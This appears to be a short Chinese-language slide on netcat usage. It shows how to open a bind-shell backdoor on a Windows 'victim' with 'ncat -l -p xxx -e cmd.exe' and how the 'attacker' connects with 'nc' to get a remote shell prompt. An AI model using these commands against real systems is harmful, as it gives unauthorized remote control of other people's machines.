

netcat用法
方法

ncat -l -p xxx -e cmd.exe
如果受害者是 Windows 系统，只须如下命令就可以开启一个后门（其中的 xxx 是端口号）

nc -n x.x.x.x xxx
后门创建好之后，攻击者在自己机器上也运行 nc（客户端 nc），然后连接到作为后门的 nc（服务端 nc）。一旦连上之后，攻击者就可以在自己的 nc 上看到对方（受害者机器）的 shell 提示符。